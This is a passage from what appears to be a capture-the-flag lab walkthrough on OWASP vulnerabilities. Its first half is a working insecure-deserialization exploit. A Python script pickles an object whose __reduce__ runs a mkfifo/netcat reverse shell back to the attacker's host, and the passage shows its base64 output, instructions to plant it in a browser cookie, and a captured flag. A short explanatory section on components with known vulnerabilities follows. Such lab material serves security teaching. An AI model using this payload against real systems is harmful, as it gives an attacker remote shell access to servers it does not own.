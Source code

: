 * create a .py file and paste this code into 

> change the `@IP` with your own host IP, and `port` with the port used with the listener

```py
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat @IP port > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

* Execute "rce.py" via `python3 rce.py`. Note the output of the command, it will look something similar to this:

```
gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuNi41OC45IDk5OTkgPiAvdG1wL2aUhZRSlC4=
```

* Copy and paste everything in-between the two speech marks ('DATA').Paste this into the "encodedPayload" cookie in your browser
* Ensure our netcat listener is still running. Refresh the page. It will hang, refer back to your netcat listener, and boom you've a remote shell

1. flag.txt

```
4a69a7ff9fd68
```

## Components With Known Vulnerabilities

Occasionally, you may find that the company/entity that you're pen-testing is using a program that already has a well documented vulnerability.

For example, let's say that a company hasn't updated their version of WordPress for a few years, and using a tool such as wpscan, you find that it's version 4.6. Some quick research will reveal that WordPress 4.6 is vulnerable to an unauthenticated remote code execution(RCE) exploit, and even better you can find an exploit already made on [exploit-db](https://www.exploit-db.com/).

As you can see this would be quite devastating, because it requires very little work on the part of the attacker as often times since the vulnerability is already well known, someone else has made an exploit for the vulnerability. The situation becomes even worse when you realize, that it's really quite easy for this to happen, if a company misses a single update for a program they use, they could be vulnerable to any number of attacks.

Hence, why OWASP has rated this a 3(meaning high) on the prevalence scale, it is incredibly easy for a company to miss an update for an application.

---